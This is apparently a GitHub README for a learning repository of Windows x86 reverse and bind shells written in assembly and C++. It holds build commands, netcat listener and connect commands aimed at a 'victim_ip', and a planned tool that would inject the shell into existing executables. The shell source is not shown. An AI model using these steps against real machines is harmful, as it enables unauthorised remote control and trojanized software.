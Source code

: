 # Reverse_shell learning

## :one: Reverse Shell x86 :fr:

Warning, this reverse shell is not portable, just for show example how does a reverse shell in x86 in assembly code, this method is really old

### Tree

* reverse_bind_cpp 
* reverse_bin_cpp_v2
  - try to catch ipv4 address of ethernet card
* Bind reverse written in object
* Reverse cpp ( reverse shell cpp )
* Reverse cpp written in object
* ASM Bind reverse shell
  - not terminated
* ASM v1 ( reverse shell asm )
  - Replace all address offsets of called functions
* ASM v2 ( reverse shell asm )
  - To do remote all TEB/PEB, remove all bytes null
  - Ligne 78 v2 : LoadLibraryA replace it by your own offset
  - Ligne 79 v2 : GetProcAddress replace it by your own offset
  - Ligne 193 v2: SOKADDR_IN set you own port and IP address

### Soon

\[\*\] coding a lil program :
  * Open biary file exe
  * read PE
  * find EP
  * IAT import ws2_32.dll
  * Inject Reverse_shell
  * close binary file Exe
  
### Architecture

Win32 plateform

- XP 
- Win 7
- Win 10 - Windows Defender Detects it's bad for himself

### Compilation 

```
$nasm -f win32 reverse_shell.s -o reverse_shell.o
$ld -m i386 reverse_shell.o -o reverse_shell32.exe
```
### Show Hex

```
$nasm -f bin reverse_shell.s -o reverse_shell_bin.o
$cat reverse_shell_bin | hexdump -C
```
## :two: Exploit

### Reverse Tcp

```
$netcat -v -l -p 4444
```

### Reverse Bind Tcp

```
$netcat -v victim_ip 4444
```

### Reverse Tcp With CPP 

Write on an ide really basic devcpp on windows

- Inlude at your projet : MinGw-x86-64\libws2_32.so

<img src="https://zupimages.net/up/18/52/3s63.png">
<img src="https://zupimages.net/up/18/52/y6mk.png">

### Win 10 pro reverse cpp

<img src="https://zupimages.net/up/18/52/ztqp.png">
<img src="https://zupimages.net/up/18/52/dt6r.png">
<img src="https://zupimages.net/up/18/52/a96f.png">


